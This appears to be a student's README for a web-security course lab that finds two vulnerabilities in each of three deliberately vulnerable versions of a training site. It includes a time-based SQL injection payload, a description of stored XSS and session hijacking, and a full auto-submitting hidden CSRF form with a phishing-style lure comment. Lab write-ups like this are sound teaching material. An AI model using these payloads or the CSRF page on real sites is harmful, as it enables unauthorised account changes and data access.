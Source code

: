 # Codepath-Week-9

Time spent: 9 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: Session Hijacking/Fixation

Description: I performed session hijacking to verify this vulnerability. In one browser (Chrome), we logged in normally but then copied the current PHPSESSIONID using a tool I discovered. I then went to another browser (Microsoft Edge) which was NOT logged in and changed the PHPSESSIONID in this browser (using the same tool) to match the one we retrieved from the normally logged in browser.The result is that we were automatically logged into the system in the second browser without the need for a username or password.

<img src="SessionHijackingFixation.gif">

Vulnerability #2: SQL Injection

Description: I performed a SQL injection at the public/staff/salespeople/show.php?id=?? endpoint. The ?? was replaced with the following SQL syntax: ' OR SLEEP(5)=0--' (which becomes %27%20OR%20SLEEP(5)=0--%27 when encoded in a URL). This snippet forced the SQL query (and thus our entire request) to pause for 5 seconds, thus indicating a successful injection.

<img src="SQLINJECTION.gif">

## Green

Vulnerability #1: Username Enumeration

Description: Username enumeration can be performed when feedback from a web application provides hints as to whether or not a certain account exists. In the login screen of the green application, if the username is correct, but the password is wrong, the Log in was unsuccessful. message is bolded. However, if the username does not exist, this message is NOT bolded. In the following walkthrough, pperson, jmunroe99, and lbtables are the only valid usernames.

<img src="UsernameEnumeration.gif">

Vulnerability #2: Cross-Site Scripting (XSS)

Description: An user can input some Javascript in between a pair of <script> tags in the "Feedback" box of the "Contact Us" form. When an admin goes to his/her panel to check for any submitted forms, this Javascript is automatically executed.

<img src="CrossSiteScripting.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Description: An IDOR vulnerability exists in the red application, where a user can see any account, including those accounts that have been effectively deactivated. We can use the public/salesperson.php?id=?? endpoint where ?? is the ID of the salesperson. In this example, we can put in the ID (11) of "Lazy Lazyman," who was apparently fired for stealing. This attack is made even easier by the fact that the ID numbers of all salespeople can be guessed since they are low numbers and are in numerical order. Thus, an attacker could simply guess ID numbers until they reach a deactivated account. The blue and green applications mitigate this by simply redirecting the user back to the list of salespeople with absolutely no feedback if a non-existent or deactivated ID is provided.

<img src="InsecureDirectObjectReference.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)

Description: Incomplete!!: To perform a CSRF attack, we can trick an admin into clicking a link to a "blank" page that contains a hidden form. The page's source looks like the following:

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=5" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="Ken Barker" />
      	<input type="text" name="last_name" value="WAS HACKED" />
      	<input type="text" name="phone" value="555-352-9654" />
      	<input type="text" name="email" value="kbarker@HACKED.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>

<!-- file:///C:/Users/Student/OneDrive/Desktop/random_form.html -->

<!--
	Not a Hacker
	not.a.hacker@example.com

	Go here to get claim your money! -> file:///C:/Users/Student/OneDrive/Desktop/random_form.html
-->

It contains all of the information necessary to modify Ken Barker's salesperson profile (id=5) and will be successfully submitted as soon as a logged in user (i.e. an admin) loads the page.

<img src="CrossSite_Request_Forgery.gif">


## Notes
